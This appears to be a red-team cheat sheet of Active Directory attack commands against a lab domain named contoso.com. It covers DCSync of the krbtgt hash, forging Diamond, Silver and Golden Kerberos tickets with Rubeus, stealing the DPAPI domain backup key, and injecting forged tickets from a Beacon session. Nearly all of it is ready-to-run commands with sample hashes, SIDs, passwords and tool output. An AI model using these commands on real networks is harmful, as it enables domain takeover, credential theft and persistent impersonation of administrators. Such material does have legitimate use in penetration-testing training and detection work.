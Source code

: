 
##### DCSync

Obtain krbtgt hash and machine account hash
```powershell
dcsync contoso.com CONTOSO\krbtgt

dcsync contoso.com CONTOSO\lon-db-1$

512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c
bc6fd6e8519b52e09f60961beeee083a441c25908e30a6c29b124b516e06945f
cce3f72b3b4bcffe0af7979588b885b6
```

---
##### Diamond Ticket

> **From the medium-integrity Beacon**:

Use AES256 hash of the `krbtgt` account to create a diamond ticket
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /ticketuser:Administrator /ticketuserid:500 /domain:CONTOSO.COM /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Diamond Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

---

##### DPAPI Backup Key Abuse

> From the medium-integrity Beacon

Within a Domain Admin session Recover the domain's backup DPAPI key.
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey

```

Drop the impersonation and use the key to decrypt credentials stored in the Credential Manager
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /pvk:
```

---
##### Silver Ticket

> This can be done locally offline on your machine

Use AES256 machine hash to forge silver ticket (any service can be used)
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/lon-db-1 /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Silver Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

### USING SERVICE ACCOUNT

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /user:MSSQLSvc /domain:dublin.contoso.com /password:Passw0rd!

[*] Action: Calculate Password Hash(es)

[*] Input password             : Passw0rd!
[*] Input username             : mssql_svc
[*] Input domain               : CONTOSO.COM
[*] Salt                       : CONTOSO.COMmssql_svc
[*]       rc4_hmac             : FC525C9683E8FE067095BA2DDC971889
[*]       aes128_cts_hmac_sha1 : 53B5F3804FBF13E7DD624E71D18DF9BB
[*]       aes256_cts_hmac_sha1 : E4A51DAD46B6D1BA85627EEC82991C8FC94C279CE06140751E02BA015E6A21F9
[*]       des_cbc_md5          : DF91ECCDAE70BA0E
```

Then forge the service ticket for MSSQLSvc/dub-sql-2.dublin.contoso.com.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:MSSQLSvc/dub-sql-2.dublin.contoso.com /rc4:FC525C9683E8FE067095BA2DDC971889 /user:Admi /id:1108 /groups:513,1106,1107,4602 /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap

```

Where:

- `/id` is the RID for rsteel.
    
- `/groups` are the RIDs of rsteel's group membership.  513 is 'Domain Users', 1106 is 'Workstation Admins', 1107 is 'Server Admins', and 4602 is 'Database Admins'.

```powershell
beacon> make_token CONTOSO\rsteel FakePass
[+] Impersonated CONTOSO\rsteel (netonly)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:doIFVzCCBVOgAwIBBaEDAgEWooIETjCCBEphggRG<SNIP>
[*] Action: Import Ticket
[+] Ticket successfully imported!

beacon> run klist

Current LogonId is 0:0x179c863

Cached Tickets: (1)

#0>	Client: rsteel @ CONTOSO.COM
	Server: MSSQLSvc/lon-db-1.contoso.com:1433 @ CONTOSO.COM
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40a00000 -> forwardable renewable pre_authent 
	Start Time: 3/4/2025 12:39:29 (local)
	End Time:   3/4/2025 22:39:29 (local)
	Renew Time: 3/11/2025 12:39:29 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0 
	Kdc Called:
    
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:lon-db-1.contoso.com /m:info

```


---
##### Golden Ticket

> This can be done locally offline on your machine

Use AES256 hash of the `krbtgt` account to forge a golden ticket as the default DA
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject GOlden Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```